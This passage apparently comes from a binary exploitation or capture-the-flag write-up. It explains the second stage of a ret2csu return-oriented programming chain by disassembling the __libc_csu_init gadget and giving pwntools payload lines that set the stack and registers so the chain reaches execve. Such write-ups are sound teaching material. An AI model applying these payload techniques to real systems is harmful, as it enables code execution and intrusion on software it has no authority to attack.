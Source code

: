 Now, it's time to check the second ROP chain:-

```python
'''
   0x0000000000400670 <+64>:	mov    rdx,r15
   0x0000000000400673 <+67>:	mov    rsi,r14
   0x0000000000400676 <+70>:	mov    edi,r13d
   0x0000000000400679 <+73>:	call   QWORD PTR [r12+rbx*8]
   0x000000000040067d <+77>:	add    rbx,0x1
   0x0000000000400681 <+81>:	cmp    rbp,rbx
   0x0000000000400684 <+84>:	jne    0x400670 <__libc_csu_init+64>
   0x0000000000400686 <+86>:	add    rsp,0x8
   0x000000000040068a <+90>:	pop    rbx
   0x000000000040068b <+91>:	pop    rbp
   0x000000000040068c <+92>:	pop    r12
   0x000000000040068e <+94>:	pop    r13
   0x0000000000400690 <+96>:	pop    r14
   0x0000000000400692 <+98>:	pop    r15
   0x0000000000400694 <+100>:	ret    
'''

payload += p64(0x00)            # add rsp,0x8 padding
payload += p64(0x00)            # rbx
payload += p64(0x00)            # rbp
payload += p64(0x00)            # r12
payload += p64(0x00)            # r13
payload += p64(0x00)            # r14
payload += p64(0x00)            # r15
payload += p64(libc.symbols['execve'])
```

Well, kind of a long chain to deal with but it's very simple, as I already explained it but this time we are giving the input, so this is a crucial part. The explanations would be done line by line:-

```r
   0x0000000000400670 <+64>:	mov    rdx,r15
   0x0000000000400673 <+67>:	mov    rsi,r14
   0x0000000000400676 <+70>:	mov    edi,r13d
   0x0000000000400679 <+73>:	call   QWORD PTR [r12+rbx*8]
   0x000000000040067d <+77>:	add    rbx,0x1
   0x0000000000400681 <+81>:	cmp    rbp,rbx
   0x0000000000400684 <+84>:	jne    0x400670 <__libc_csu_init+64>
   0x0000000000400686 <+86>:	add    rsp,0x8
```

Now, the `mov` instructions will transfer the contents to registers. Previously, we gave `r12` : `0x600e38` which is an address to the `_init` pointer, here, apparently, `rbx` was `0` which means `[r12 + rbx * 8]` will be equal to `[0x600e38 + 0 * 8]` which will be `[0x600e38]`.  After that `rbx` is incremented by `0x1` which will make the `rbx` value `0x1`. Then the `cmp    rbp,rbx`, as you remember from the first chain, we provided `0x1` to `rbp` value, then it will evaluate equally since `rbp` and `rbx` both have the value of `0x1`, skipping the `jne` line. After that we have, `add rsp, 0x8`, we have to pad this instruction by giving `0x0`, after that we can give `0x0` to the popped registers as the control flow of program would take care of this.
